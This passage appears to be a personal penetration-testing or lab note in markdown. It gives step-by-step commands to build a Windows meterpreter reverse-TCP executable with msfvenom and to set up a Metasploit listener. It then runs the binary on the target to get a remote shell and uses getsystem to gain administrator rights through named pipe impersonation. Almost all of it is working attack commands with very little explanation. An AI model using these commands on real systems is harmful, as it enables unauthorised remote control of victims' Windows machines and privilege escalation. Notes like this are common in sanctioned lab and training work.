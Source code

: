 - Get a `meterpreter` sessions through `msfvenom` and `metasploit`:
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=9001 -f exe -o reverse.exe`
- Transfer the file on windows machine
- On metasploit:
	- `set payload windows/x64/meterpreter/reverse_tcp`
	- `set lhost wlan0`
	- `set lport 9001`
	- `run`
- Run the binary on windows machine:
	- `C:\Users\Public\Documents>reverse.exe`
	- Got the shell:
		- ![[Pasted image 20250326040648.png]]

# Quick win with `getsystem`

- Run `getsystem` to get admin privs (`Named Pipe Impersonation`)
	- ![[Pasted image 20250326040732.png]]
	- ![[Pasted image 20250326040921.png]]